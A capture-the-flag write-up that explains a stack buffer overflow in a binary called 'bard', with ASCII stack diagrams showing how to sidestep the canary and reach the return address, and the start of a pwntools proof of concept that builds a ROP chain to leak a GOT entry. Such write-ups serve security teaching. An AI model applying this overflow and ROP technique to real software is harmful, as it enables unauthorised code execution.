     If you're observant, you might have noticed that the stack storage for the 10 `Bards`, s[488], is only large enough to hold 10 `Good` bards, whereas a group of 10 `Bad` bards will overflow to the end of the stack.
2.  Each of the bards have combat sessions under the `combat_with_bard()` section. As far as I can tell, this part of the binary is mostly fluff. It might be possible to leak out the stack from this part, but it wasn't necessary for the full exploit.

If you need more details, you should really check out the code in the Appendix. Everything after here will be about the exploit.
### Overflow
The stack is structured something like this:
```
+------------------------+-----------+-----------+-------------------------------+
|   Large s[488] chunk   |   canary  | rbp-store | return pointer and ROP region |
+----------488-----------|-----8-----|-----8-----|------as long as you want------+
```
If we do the math, the maximum size amount of memory we can write is `56*10 == 560`. However, blindly allocating `Bad` bards is likely to overwrite the stack canary and lead to a crash. We need to ensure that memory is *not* written to the canary, and that memory is also written to the return pointer region.

To do this, we can start by allocating 7 `Bad` bards and 1 `Good` bard:
```
+------+-------+
| Good | Bad*7 |
+--48--+--392--+
```
After that, we allocate another `Bad` bard. This will cover the stack canary under `Bad->name[]`, which we can specifically choose to not overwrite:
```
+-----------------------------+-----------+-----------+-------------------------------+
|      Large s[488] chunk     |   canary  | rbp-store | return pointer and ROP region |
+-------------488-------------|-----8-----|-----8-----|------as long as you want------+
+------+-------+-----------Bad------------+
| Good | Bad*7 | Garbage | name[],padding |
+--48--+--392--+----22---+-----0x20+2-----+
```
Then, we can allocate a final `Good` chunk that will allow us to write to the ROP region as `name[]`:
```
+-----------------------------+-----------+-----------+------------+
|      Large s[488] chunk     |   canary  | rbp-store | ROP region |
+-------------488-------------|-----8-----|-----8-----|-----32-----+
+------+-------+-----------Bad------------+----------Good----------+
| Good | Bad*7 | Garbage | name[],padding |  garbage  |   name[]   |
+--48--+--392--+----22---+-----0x20+2-----+-----8-----|-----32-----+
```
If all these ASCII diagrams are confusing, hopefully a POC can convince you:
```python
from pwnscripts import *
context.binary = './bard'
main = 0x40107B #context.binary.symbols['main']

class bard(pwnlib.tubes.process.process):
    def create(r, alignment:str, weapon:int, name: bytes):
        r.sendlineafter('choose thy alignment (g = good, e = evil):\n', alignment)
        for _ in range(3): r.recvline()
        r.sendline(str(weapon))
        r.sendafter('name:\n', name)
    def combat(r, choice:str, v:int=None):
        r.sendlineafter('(r)un\n', choice)
        if choice == 'r': return r.recvline()
        if choice in 'mef': return ''.join([r.recvline() for _ in range(3)])

rop = ROP(context.binary)
rop.puts(context.binary.got['putchar'])
```